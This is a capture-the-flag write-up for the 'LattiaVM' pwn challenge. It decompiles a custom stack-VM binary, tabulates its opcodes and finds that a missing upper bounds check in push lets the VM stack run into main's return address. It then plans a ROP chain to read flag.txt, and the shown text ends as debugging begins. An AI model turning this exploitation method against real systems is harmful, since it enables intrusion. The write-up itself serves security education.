


# LattiaVM

### Authors: Lagoon, Shatterbox

- Category: Pwn
- Topics: reversing, custom stack-based VM bytecode programming, buffer overflow, PIE, ROP
- Est. Difficulty: Medium

## Description:

Some dude's been hyping up his all-new, totally one-of-a-kind project that's apparently coming soon. Fortunately, someone found an early-access port to one of his devices. It leads to a custom stack-based VM sandbox. Maybe we can leave him a surprise message there.

# Challenge Context: the public LattiaVM repository

This challenge is based on a Stack-based VM by another (now former) L3ak member who went by the name Lagoon. The real lattia-vm repository is public at https://github.com/lattiahirvio/lattia-vm

The CTF variant of lattia-vm has been stripped and simplified to be more difficult than the previous publicly available version. The repository is now public at https://github.com/sshatterbox/l3ak-lattia-vm-src/tree/global, alongside part 2 which is just the `malloc` branch of the same repository.

The following additional info will not be important for the CTF: The public VM has an assembly (LVMASM) parser as well as some debug features and help options, but these were removed in the CTF version. It is also entirely missing the .data pool, and all related instructions.

# Handout

The challenge description implies that this will be some sort of sandbox escape challenge. We are given a docker setup with a fake `flag.txt`, the lattia-vm executable, its libc and ld, and a wrapper.c source file.

# Entry Point: `wrapper.c`

The docker compiles this wrapper and executes it as the entry point. It does 2 things:

1. Ask the user for at most 257 bytes of input and pass that as the first real argument to a child process
2. Disable stdin so it can't receive any more input than that

```c
// just enough characters to detect if the input was too long
#define MAX_HEX 257

int main(void)
{
    // <...>

    pid_t pid = fork();
    if (pid == 0)
    {
        // IMPORTANT: redirect stdin to /dev/null to disable it
        freopen("/dev/null", "r", stdin);
        char vm[] = "/app/lattia-vm";
        execl(vm, vm, buf, NULL); // before running lattia-vm
        perror("execl");
        _exit(1);
    }
    waitpid(pid, NULL, 0);

    return 0;
}
```

This effectively means that even if we get `lattia-vm` to run `system("/bin/sh")`, it would not be able to respond to further shell inputs we attempt to send. So, the entire payload, including flag reading, has to fit within those first 257 bytes sent over the connection.

# Executable's Main: `lattia-vm`/`main`

Now for the lattia-vm executable. Let's decompile the main function. I will be using Binary Ninja's Pseudo-C output:

```c
00401199    int32_t main(int32_t argc, char** argv, char** envp)

00401199    {
                // canary setup
00401199        void* fsbase;
004011b1        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
004011b1
                // validate argument count
004011c7        if (argc <= 1)
004011d3            puts("\x1b[0;31mNo program provided as argument.\x1b[0;37m");
                    // doesn't exit()
                    // this is just an oversight that causes a segfault later
004011d3
004011df        if (argc > 2)
004011eb            puts("\x1b[0;31mToo many program arguments.\x1b[0;37m");
                    // doesn't exit()
004011eb
                // get length of argument
00401201        uint64_t rax_5 = strlen(argv[1]);
00401201
                // actually only checks for 256 bytes.
                // the 257th byte of input from the wrapper exists only
                // to be detected by this check.
00401218        if (rax_5 > 0x100)
00401218        {
00401262            puts("\x1b[0;31mInput too long.\x1b[0;37m");
                    // immediately exits the program, halting execution.
0040122e            exit(1);
0040122e            /* no return */
00401218        }
00401218
                // unknown function sub_40132e
                // unknown global variable data_404040
00401262        sub_40132e(argv[1], rax_5, &data_404040);
00401271        puts("Executing...");

                // unknown data var_418
00401290        void var_418;

                // unknown function sub_401493
00401290        sub_401493(&var_418, &data_404040, (int64_t)(int32_t)(rax_5 >> 1));

0040129f        puts("Goodbye!");
004012ae        fflush(stdout);

                // canary check
004012bc        *(uint64_t*)((char*)fsbase + 0x28);
004012bc
004012c5        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
004012cd            return 0;
004012cd
004012c7        __stack_chk_fail();
004012c7        /* no return */
00401199    }
```

First it just validates that there is 1 input, and that this string is no more than 256 bytes.
Note that any time it hits an `exit(1)`, that immediately stops the program.

# Input Handling: `sub_40132e`

After the initial length validation comes the following:

```c
00401262        sub_40132e(argv[1], rax_5, &data_404040)
```

It's a function that takes 3 arguments:

- argv[1] which was the input string expected to be in hex, let's call it `input`
- rax_5 which is the length of argv[1], let's call it `inputLen`
- some pointer, which turns out to be the output bytecode array

Here is the decompiler output, with some variables renamed for clarity:

```c
0040132e    int64_t sub_40132e(char* input, int64_t inputLen, void* arg3)

0040132e    {
0040132e        int32_t var1 = 0;
00401349        int32_t var2 = 0;
00401349
004013e6        while (true)
004013e6        {
004013e6            int64_t var2_i64 = (int64_t)var2;
004013e6
004013ec            if (var2_i64 >= inputLen)
004013f5                return var2_i64; // return value unused
004013f5
0040136a            char var3 = sub_4012ce(input[(int64_t)var2]);
0040136a
0040137e            if (inputLen == (int64_t)(var2 + 1))
0040137e                break;
0040137e
004013d9            *(uint8_t*)((char*)arg3 + (int64_t)var1) =
004013d9                var3 << 4 | sub_4012ce(input[(int64_t)var2 + 1]);
004013db            var1 += 1;
004013df            var2 += 2;
004013e6        }
004013e6
0040138a        puts("\x1b[0;31mHex string must have even length.\x1b[0;37m");
00401394        exit(1);
00401394        /* no return */
0040132e    }
```

Here it is refactored:

```c
int64_t decodeHexStr(char* input, int64_t inputLen, uint8_t* output) {
    int outIdx = 0; // var1
    int inIdx = 0; // var2

    while (inIdx < inputLen) {

        char var3 = sub_4012ce(input[inIdx]);
        if (inputLen == inIdx + 1) { /* error and exit */ }
        char var4 = sub_4012ce(input[inIdx + 1]);

        output[outIdx] = var3 << 4 | var4;

        outIdx++;
        inIdx += 2;
    }

    return inIndex; // again, value unused. kept here for consistency.
}
```

It's just a hex decoder.

Each individual character is decoded by `sub_4012ce`.
It's nothing special. It just converts a single hex character into its numeric value.

Decompiled:

```c
004012ce    uint64_t sub_4012ce(char arg1)

004012ce    {
004012ce        char chr = tolower((int32_t)arg1);
004012ce
004012f3        if (chr > 0x2f && chr <= 0x39)
004012f9            return (uint64_t)((uint32_t)chr - 0x30);
004012f9
00401308        if (chr > 0x60 && chr <= 0x66)
0040130e            return (uint64_t)((uint32_t)chr - 0x57);
0040130e
0040131d        puts("\x1b[0;31mInvalid hex character.\x1b[0;37m");
00401327        exit(1);
00401327        /* no return */
004012ce    }
```

Refactored:

```c
uint64_t decodeHexChr(char arg1) {
    char chr = tolower(arg1);

    if (chr > ('0'-1) && chr <= '9')
        return chr - '0';

    if (chr > ('a'-1) && chr <= 'f')
        return chr - ('a'-10);

    puts(str: "\x1b[0;31mInvalid hex character.\x1b[0;37m")
    exit(status: 1)
}
```

# The VM data: `var_418`, `sub_401493`

So, to recap, here's the main function so far, highly simplified, and with the following renames:

- `sub_40132e` -> `decodeHexStr`
- `data_404040` -> `decodedBytes`

```c
00401199    int32_t main(int32_t argc, char** argv, char** envp)
00401199    {
00401199-004011b1 // set up canary

004011c7-00401218 // validate argument exists and is <= 256 chars long

00401262        decodeHexStr(argv[1], inputLen, &decodedBytes);

            // <unanalyzed code>
00401271        puts("Executing...");

                // unknown data var_418
00401290        void var_418;
                // unknown function sub_401493
00401290        sub_401493(&var_418, &decodedBytes, (int64_t)(int32_t)(inputLen >> 1));

0040129f        puts("Goodbye!");
004012ae        fflush(stdout);
            // </unanalyzed code>

004012bc-004012c7 // check canary
00401199    }
```

So far it just decodes our hex input into a global variable called `decodedBytes`:

```c
00404040  decodedBytes:
00404040  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00404050  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00404060  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00404070  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00404080  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00404090  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
004040a0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
004040b0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
.bss (NOBITS) section ended  {0x404020-0x4040c0}
```

Just a plain 128-byte global variable initialized to zeroes. Enough to fit all the data we can send in 256 chars of hexadecimal text.

## The Uninitialized Blob of Data: `var_418`

The rest of main is equally boring, besides this function:

```c
00401290        void var_418; // decompiler artifact, this line can be ignored
00401290        sub_401493(&var_418, &decodedBytes, (int64_t)(int32_t)(inputLen >> 1));
```

This is where the real work happens.

It seems to take in an unknown argument in main's stack frame labeled `var_418`. I'll just open the Stack panel of BinaryNinja and take a quick peek aaaand that's pretty big:

```c
entry-0x418  void var_418
entry-0x418  ?? ?? ?? ?? ?? ?? ?? ??
entry-0x410  ?? ?? ?? ?? ?? ?? ?? ??
// (123 lines omitted)
entry -0x28  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x20  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x18  ?? ?? ?? ??
entry -0x14  uint32_t var_14
entry -0x10  int64_t var_10
entry  -0x8  int64_t __saved_rbp
entry        void* const __return_addr
```

that's... hold on let me pull up a calc[1]

```
 0x418 (start of ?? bytes)
- 0x14 (start of non-?? bytes)
 =====
 0x404 = 1028 in decimal, or 1024 + 4
```

<small>[1] "calc" is short for "calculator". This footnote may be of use to the uninitiated.</small>

That's at most 1028 bytes of uninitialized data placed right on the stack, and it's being passed straight into the function, along with the decoded bytes and `inputLen >> 1`, which is half of inputLen and basically just the length of the decoded bytes.

## The Interpreter: `sub_401493`

Let's see how `sub_401493` handles these arguments. Let's give them names based on the invocation:

```c
sub_401493(
    &var_418,      // data
    &decodedBytes, // bytecode
    (int64_t)(int32_t)(inputLen >> 1) // bytecodeLen
);
```

And here's the decompiled code:

```c
00401493    int64_t sub_401493(void* data, uint8_t* bytecode, int64_t bytecodeLen)

00401493    {
                // sets the last 4 bytes to 0
                // so far, leaves the other 1024 bytes uninitialized
00401493        *(uint32_t*)((char*)data + 0x400) = 0;
004014c4        int32_t var_7c = 0;
004014d2        int32_t var_78 = 0;
004014d2
                // loops
00401984        while (true)
00401984        {
                    // exit condition #1. based on the error message,
                    // var_78 is the "iteration counter".
                    // it must not exceed 512 or else it stops your program.
                    // this is literally 1984. or, well, address 00401984, i guess.
00401984            if (var_78 >= 0x200)
00401984            {
0040199e                printf(
0040199e                    "\x1b[0;31mError: Program took more than %d iterations.\x1b[0;37m\n",
0040199e                    0x200);
004019a8                exit(1);
004019a8                /* no return */
00401984            }
00401984
                    // exit condition #2.
                    // var_7c is the "instruction pointer".
                    // it must remain within [0, bytecodeLen).
                    // it's used to index into the bytecode.
004014f0            if (var_7c < 0 || (int64_t)var_7c >= bytecodeLen)
004014f0            {
004014fc                puts("\x1b[0;31mError: Instruction pointer went out of bounds.\x1b[0;37m");
00401506                exit(1);
00401506                /* no return */
004014f0            }
004014f0
                    // rax_7 here is declared as a u32, but it's just widened.
                    // it only contains exactly 1 byte from the `bytecode`: the one at the instruction pointer.
0040151e            uint32_t rax_7 = (uint32_t)bytecode[(int64_t)var_7c];
0040151e
                    // exit condition #3. this is the default branch of the switch/case.
00401528            if (rax_7 > 0xd)
00401528            {
00401960                printf("\x1b[0;31mError: Unrecognized instruction at PC %d\x1b[0;37m\n",
00401960                    (uint64_t)var_7c);
0040196a                exit(1);
0040196a                /* no return */
00401528            }
00401528
                    // executing the current instruction
00401528            switch (rax_7)
00401528            {
00401551-0040154f       // NOTE: cases from 0 to 0xd omitted.
                        // the default case was exit condition #3.
00401528            }
00401528
                    // increment instruction pointer and iteration count.
00401976            var_7c += 1;
0040197a            var_78 += 1;
00401984        }
00401984
                // tells us our iteration count at the end.
00401945        return printf("Program finished. Took %d iterations.\n", (uint64_t)var_78,
00401945            &jump_table_4022bc);
```

Alright, rename time:

- `var_7c` -> `instructionPtr`
- `var_78` -> `iterCount`
- `rax_7` -> `opcode`

And now, let's go through the switch cases.

## Opcode 0x00: PUSH and `push()`

```c
00401528            switch (opcode)
00401528            {
00401551                case 0:
00401551                {
00401551                    instructionPtr += 1;
0040157d                    sub_4013f6(data, (uint32_t)bytecode[(int64_t)instructionPtr]);
00401551                    break;
00401551                }
00401596-0040154f       // <other cases>
00401528            }
```

This opcode reads a 2nd byte from the bytecode. This means it takes an argument, and the full command would be `00xx`. It passes both `data` (which is still behind a pointer) and the opcode's argument `xx` into `sub_4013f6`.

Let's see that function.

Inside we see a lot of typecasts for `data`, which all seem to lead to `uint32_t*` and an immediate dereference:

```c
004013f6    int64_t sub_4013f6(void* data, int32_t arg2)

004013f6    {
            //  v vvvvvvvvv         vvvv             v vvvvvvvvv         vvvv
004013f6        *(uint32_t*)((char*)data + ((int64_t)*(uint32_t*)((char*)data + 0x400) << 2)) =
004013f6            arg2;
            //                   v vvvvvvvvv         vvvv
0040141c        int32_t result = *(uint32_t*)((char*)data + 0x400);
            //  v vvvvvvvvv         vvvv
00401429        *(uint32_t*)((char*)data + 0x400) = result + 1;
00401430        return result;
004013f6    }
```

This was also true in the start of our parent function:

```c
00401493    int64_t sub_401493(int32_t* data, uint8_t* bytecode, int64_t bytecodeLen)

00401493    {
                // sets the last 4 bytes (the last u32) to 0
                // so far, leaves the other 1024 bytes (enough to fit 256 more of u32) uninitialized
00401493        *(uint32_t*)((char*)data + 0x400) = 0;
```

This suggests that `data` is an array of 32-bit integers. Let's assume they're unsigned.
From here on out, any references to `data` will be assumed to have type `uint32_t*` until something else implies otherwise.

```c
004013f6    int64_t sub_4013f6(uint32_t* data, int32_t arg2)

004013f6    {
004013f6        data[(int64_t)data[0x100]] = arg2;
0040141c        int32_t result = data[0x100];
00401429        data[0x100] = result + 1;
00401430        return result;
004013f6    }
```

Bit of refactoring later, and we now have a name for this function:

```c
int64_t push(uint32_t* data, int32_t arg2)
{
    int64_t index = &data[0x100];
    data[*index] = arg2;
    *index++;

    return *index - 1; // this return value is technically never used anywhere
}
```

This `push` function just places `arg2` at the index specified by `data[0x100]`,
likely a VM stack pointer,
incrementing it along and returning the index of where arg2 was placed.... **Without a bounds check.**
This will be important for our exploit.

For now, let's keep renaming things and making things more readable.

Back to the parent function's switch case.

```c
00401493    int64_t sub_401493(uint32_t* data, uint8_t* bytecode, int64_t bytecodeLen)
            // ...
00401551                case 0:
00401551                {
00401551                    instructionPtr += 1;
0040157d                    push(data, (uint32_t)bytecode[(int64_t)instructionPtr]);
00401551                    break;
00401551                }
            // ...
```

Basically, `00 xx` is the operation `PUSH xx`.
It can only push 1 byte (0-255) but the actual item is widened to 32-bit after.

## Opcode 0x01: POP and `pop()`

Moving on, let's check the next case:

```c
00401596                case 1:
00401596                {
00401596                    int32_t var_10_1 = sub_401431(data);
00401596                    break;
00401596                }
```

Just one function call.
It has a return value, but it's immediately discarded by our opcode.

Simple enough to guess its name:

```c
00401431    uint64_t pop(uint32_t* data)

00401431    {
00401431        if (data[0x100] > 0)
00401449        {
00401482            data[0x100] -= 1;
00401492            return (uint64_t)data[(int64_t)data[0x100]];
00401449        }
00401449
00401482        puts("\x1b[0;31mError: Stack underflow\x1b[0;37m");
0040148c        exit(1);
0040148c        /* no return */
00401431    }
```

It does a bounds check this time, but only downwards.
If we're already above the stack, it still functions as normal.

In both `push` and `pop`, the value at `data[0x100]` is used to track the number of elements in the stack.

If the stack looked like `[5, 8, 13]`, the value of `data[0x100]` would be `3`.

If we then execute the opcode `01`, the stack would become just `[5, 8]` and `data[0x100]` would be `2`.

So far we have 2 stack instructions:

| Opcode | Mnemonic | Action  |
| :----- | :------- | ------- |
| 00 xx  | PUSH xx  | push xx |
| 01     | POP      | pop     |

Let's run through the rest.

## Opcodes 0x02, 0x03, 0x04, 0x05: ADD, SUB, MUL, DIV

```c
004015d6                case 2:
004015d6                {
004015d6                    push(data, pop(data) + pop(data));
004015d6                    break;
004015d6                }
00401618                case 3:
00401618                {
00401618                    push(data, pop(data) - pop(data));
00401618                    break;
00401618                }
0040165b                case 4:
0040165b                {
0040165b                    push(data, pop(data) * pop(data));
0040165b                    break;
0040165b                }
```

Self explanatory. Take the top 2 items, perform an operation on them, then push the result back.

For example, if the stack looked like `[3, 2]` and we executed `02`, it would be `[5]`.

Now what's curious is the division operation:

```c
0040166f                case 5:
0040166f                {
0040166f                    int32_t rax_40 = pop(data);
00401681                    int32_t rax_42 = pop(data);
00401681
                            // checks if either number is 0
00401693                    if (!rax_40 || !rax_42)
00401693                    {
0040169f                        puts("\x1b[0;31mError: Refusing to divide when 0 is involved "
0040169f                        "anywhere at all for any reason.\x1b[0;37m");
004016a9                        exit(1);
004016a9                        /* no return */
00401693                    }
00401693
                            //          vvvvvvv- signed division, implemented as `idiv` in disassembly
004016c3                    push(data, (int64_t)rax_42 / rax_40);
0040166f                    break;
0040166f                }
```

Looks like we can't even do `0 / 1` for... some reason. Fine, whatever.

We won't use this. But keep note of the order that the variables are divided: It's backwards compared to subtraction.

Also note that it's signed integer division. Seems to imply our data isn't `uint32_t*` but `int32_t*`.
Henceforth, as foreshadowed, it shall be `int32_t*`.
If another operation contradicts this, it should be changed again.
Luckily, I know it won't happen cause I have the source code and it's definitely signed.

For the instruction/opcode table, I will refer to the TOP of the stack (the first one to be popped) as `A`, while the second top is `B`.

| Opcode | Mnemonic | Action                       |
| :----- | :------- | ---------------------------- |
| 00 xx  | PUSH xx  | push xx                      |
| 01     | POP      | pop                          |
| 02     | ADD      | push A + B                   |
| 03     | SUB      | push A - B                   |
| 04     | MUL      | push A \* B                  |
| 05     | DIV      | push B / A (note: ordering!) |

An opcode pops exactly as many values as mentioned in the Action.

- "push xx" pops 0
- "pop A" pops 1
- "push A + B" pops 2
- etc.

## Opcodes 0x06, 0x07, 0x08, 0x09: JMP, JNE, JE, JG

```c
004016f0                case 6: // JMP xx
004016f0                {
                            // instructionPtr = xx - 1;
                            // the -1 is to compensate for the increment later
004016f0                    instructionPtr = (uint32_t)bytecode[(int64_t)(instructionPtr + 1)] - 1;
                            // note that we have 128 bytes total in our bytecode so we can JMP anywhere
004016f0                    break;
004016f0                }
                        // the following instructions pop 2 arguments off of the stack
                        // and compare them to conditionally jump
00401702                case 7: // JNE xx
00401702                {
00401702                    instructionPtr += 1;
00401702
0040173f                    if (pop(data) != pop(data))
0040174b                        instructionPtr = (uint32_t)bytecode[(int64_t)instructionPtr] - 1;
00401702                    break;
00401702                }
0040175d                case 8: // JE xx
0040175d                {
0040175d                    instructionPtr += 1;
0040175d
0040179a                    if (pop(data) == pop(data))
004017a6                        instructionPtr = (uint32_t)bytecode[(int64_t)instructionPtr] - 1;
0040175d                    break;
0040175d                }
004017b8                case 9: // JG xx
004017b8                {
004017b8                    instructionPtr += 1;
004017b8
004017f5                    if (pop(data) > pop(data))
00401801                        instructionPtr = (uint32_t)bytecode[(int64_t)instructionPtr] - 1;
004017b8                    break;
004017b8                }
                        // (...other cases)
00401528            }
00401528            // Note: instructionPtr is unconditionally incremented here
00401976            instructionPtr += 1;
0040197a            iterCount += 1;
00401984        }
```

These directly set the instructionPtr based on our bytecode input. These are GOTOs or JMPs.

For example, if we executed `06 00`, it would basically be `(instructon at 00): goto 00` which is an infinite loop.

It also turns out that the one other operation that cares about whether the variables are signed or unsigned,
`JG` (jump if greater),
compares them as signed integers. `int32_t*` is still correct.

In the assembly, the `(pop(data) > pop(data))` comparison is an inverted `jle` instruction, which is a signed. If it were unsigned, it would have been `jbe`.

| Opcode | Mnemonic | Action                       |
| :----- | :------- | ---------------------------- |
| 00 xx  | PUSH xx  | push xx                      |
| 01     | POP      | pop                          |
| 02     | ADD      | push A + B                   |
| 03     | SUB      | push A - B                   |
| 04     | MUL      | push A \* B                  |
| 05     | DIV      | push B / A (note: ordering!) |
| 06 xx  | JMP xx   | goto xx                      |
| 07 xx  | JNE xx   | if B != A: goto xx           |
| 08 xx  | JE xx    | if B == A: goto xx           |
| 09 xx  | JG xx    | if B > A: goto xx            |

Note that we have a limit of 512 iterations and a bounds check for the instructionPtr, so any infinite loop would be cut short. We also can't JMP out of bounds.

Both constraints shown here:

```c
00401984            if (iterCount >= 0x200)
00401984            {
0040199e                printf(
0040199e                    "\x1b[0;31mError: Program took more than %d iterations.\x1b[0;37m\n",
0040199e                    0x200);
004019a8                exit(1);
004019a8                /* no return */
00401984            }
00401984
004014f0            if (instructionPtr < 0 || (int64_t)instructionPtr >= bytecodeLen)
004014f0            {
004014fc                puts("\x1b[0;31mError: Instruction pointer went out of bounds.\x1b[0;37m");
00401506                exit(1);
00401506                /* no return */
004014f0            }
```

## Opcode 0xa: PRINT number

The VM was kind enough to give us a way to output the stack as numbers:

```c
00401829                case 0xa:
00401829                {
00401829                    printf("%d\n", (uint64_t)pop(data));
00401829                    break;
00401829                }
```

We can use this to test simple programs. But any complex work will have to use a debugger.

## Opcode 0xb: DUPlicate

This opcode clones/copies data. It first `pop`s before two `push`es.

```c
0040183d                case 0xb:
0040183d                {
0040183d                    int32_t rax_94 = pop(data);
00401854                    push(data, rax_94);
00401868                    push(data, rax_94);
0040183d                    break;
0040183d                }
```

If the stack looked like `[3, 2]` and we executed `0a` it would be `[3, 2, 2]`.

Since `pop` has a lower bounds check, you can't DUP when the stack is empty. It can't be used to read anything below the stack.

## Opcode 0xc: Swap

This looks a bit complicated, but `SWAP xx` just swaps the value at the top of the stack with the value `xx` slots below the top, explained later.

```c
00401872                case 0xc:
00401872                {
                            // read next byte of bytecode.
00401872                    instructionPtr += 1;
00401889                    uint32_t arg = (uint32_t)bytecode[(int64_t)instructionPtr];

                            // data[0x100] is the length of the stack.
                            // data[0x100] - 1 is the index of the top element.
0040189c                    int32_t top = data[0x100] - 1;

                            // top - arg
                            // could be an index to another element within the stack
                            // let's call this `target`
004018a5                    int32_t target = rax_104 - rax_101;

                            // negative arguments disallowed
                            // this branch is actually unreachable as `bytecode` is entirely unsigned; 255 is positive
004018af                    if (arg < 0)
004018af                    {
004018bb                        puts("\x1b[0;31mError: SWAP would overflow stack.\x1b[0;37m");
004018c5                        exit(1);
004018c5                        /* no return */
004018af                    }
004018af
                            // negative target disallowed
                            // target (top - arg) cannot be below the stack
004018ce                    if (target < 0)
004018ce                    {
004018da                        puts("\x1b[0;31mError: SWAP would underflow stack.\x1b[0;37m");
004018e4                        exit(1);
004018e4                        /* no return */
004018ce                    }
004018ce
                            // swap data[top] with data[target]
004018f6                    int32_t rax_105 = data[(int64_t)top];
00401919                    data[(int64_t)top] = data[(int64_t)target];
0040192c                    data[(int64_t)target] = rax_105;
00401872                    break;
00401872                }
```

Let's assume the stack was `[4, 3, 2, 1, 0]`.

- `0c 00` is a no-op. It would swap the top of the stack with the top of the stack, so it would just be `[4, 3, 2, 1, 0]`.
- `0c 01` would swap the top 2 elements, making it `[4, 3, 2, 0, 1]`
- From there, `0c 02` would swap the top 3rd element, making it `[4, 3, 1, 0, 2]`
- `0c 03` would swap the top 4th element, making it `[4, 2, 1, 0, 3]`
- `0c 04` would swap the top 5th element, making it `[3, 2, 1, 0, 4]`
- `0c 05` would swap the top 6th element...
  - That would be below the stack, which is out of bounds.
  - It would immediately error and terminate the program.

It's not quite as useful as an arbitrary RAM LOAD/STORE would be,
but it's definitely enough to at least perform some computations.

## Opcode 0xd: HALT

It just breaks the outer loop.

Here's the Binary Ninja Pseudo-C decompilation:

```c
0040154f                case 0xd:
0040154f                {
0040154f                    break;
0040154f                    break;
0040154f                }
```

> Note: The rest of this section just explains the decompiler artifact.
>
> Feel free to skip it.

Looks a bit confusing. That's just because every decompiled switch case branch explicitly contains breaks. The two breaks are for different purposes, actually, but they aren't labeled by default:

```c
00401984        while (true)
00401984        {
                    // ...
                    switch (opcode) {
                        // ...
0040154f                case 0xd:
0040154f                {
0040154f                    break; // break for `while (true)`
0040154f                    break; // break for `switch (opcode)`, auto-generated
0040154f                }
                    }
00401976            var_7c += 1;
0040197a            var_78 += 1;
00401984        }
```

It's much more obvious if I use High Level IL and show the whole switch case:

```c
00401528            switch (opcode)
00401551                case 0
00401551                    instructionPtr += 1
0040157d                    push(data, zx.d(bytecode[sx.q(instructionPtr)]))
00401596                case 1
00401596                    int32_t var_10_1 = pop(data)
004015d6                case 2
004015d6                    push(data, pop(data) + pop(data))
00401618                case 3
00401618                    push(data, pop(data) - pop(data))
0040165b                case 4
0040165b                    push(data, pop(data) * pop(data))
                        // ...
0040154f                case 0xd
0040154f                    break
0040154f
00401976            instructionPtr += 1
0040197a            iterCount += 1

```

Note that none of them contain `break` except the last one.

## Finishing up

That's the last opcode. There's nothing else too interesting in the whole binary. As a final step, let's rename the function:

`sub_401493` -> `runVM`

and now we have

# The Full VM Instruction Set:

Notes:

- All data is signed `int32_t`
- A is the element at the top of the stack
- B is the second item from the top
- Operations only pop as many elements as mentioned.

| Opcode | Mnemonic | Action                                         |
| :----- | :------- | ---------------------------------------------- |
| 00 xx  | PUSH xx  | push xx                                        |
| 01     | POP      | pop A                                          |
| 02     | ADD      | push A + B                                     |
| 03     | SUB      | push A - B                                     |
| 04     | MUL      | push A \* B                                    |
| 05     | DIV      | push B / A (note: ordering!)                   |
| 06 xx  | JMP xx   | goto xx                                        |
| 07 xx  | JNE xx   | if B != A: goto xx                             |
| 08 xx  | JE xx    | if B == A: goto xx                             |
| 09 xx  | JG xx    | if B > A: goto xx                              |
| 0a     | PRINT    | print A as decimal                             |
| 0b     | DUP      | pop A and push it twice (duplicate A)          |
| 0c xx  | SWAP xx  | swap A with the xx'th (e.g. 5th) item below it |
| 0d     | HALT     | end program                                    |

> While solving, I recommend keeping this table on hand for quick reference.

# The Plan

Let's gather up all the important information.

First, the security of the binary:

```sh
$ pwn checksec lattia-vm
[*] '/home/kali/Downloads/lattia-vm-1/lattia-vm'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
```

Next, stuff we know from reversing:

- we can write a program to freely manipulate `data`
- `data` holds signed 32-bit integers
- `data` is in `main`'s stack frame
- there are no upper bounds checks in `push` or `pop` or in any opcode
  - `SWAP` only enforces that data isn't swapped above the stack, it doesn't enforce a max stack length of 256
- `data[0x100]` is used to store the stack length and is used as the stack pointer

Given these, we can make a LattiaVM bytecode program push so far up the stack that we end up overwriting `data[0x100]` and making it point at main's return address. From there, we can modify the return value and jump anywhere we want.

Since NX is enabled, we can't do fun things like write our own shellcode. Not that we need to.
We'll just build a ROPchain to run a shell command then.
Since main is always called from libc,
we can get a pointer to libc from the saved return address.

Normally we would try making it run `system("/bin/sh")` for an interactive shell,
but that requires stdin, which is disabled by the wrapper.
We have to find another way to read `flag.txt`. Unlike "/bin/sh", there isn't exactly a "cat flag.txt" string anywhere, so we have to encode a command as a string of bytes somewhere.

There are 2 places where we can place custom text:

- LattiaVM Program Bytecode
  - stored in a 128-byte global variable
  - location depends on the address of the executable
    - randomized due to PIE, a binary-specific setting.
- LattiaVM Stack Memory
  - stored in a local variable in main
  - location depends on the address of the stack
    - randomized due to ASLR, which is an OS-level setting.

If we want to run a command, we'll need a pointer to either one of the above with a known offset.

We can find them with a debugger.

# Debugging: Leaked Addresses

I will be using `gdb`+[`pwndbg`](https://pwndbg.re/stable/).

The exact bytecode we pass won't matter, it's just a test.

```sh
# assume we are in the challenge directory with all the files.

cp lattia-vm lattia-vm-patched

patchelf \
    --set-interpreter ./ld-linux-x86-64.so.2 \
    --set-rpath . \
    lattia-vm-patched

gdb --args ./lattia-vm-patched 0d
```

Alright, let's begin.

Our goal is to jump our VM stack pointer to _after_ the return address of main so we can modify it and build a ROPchain.
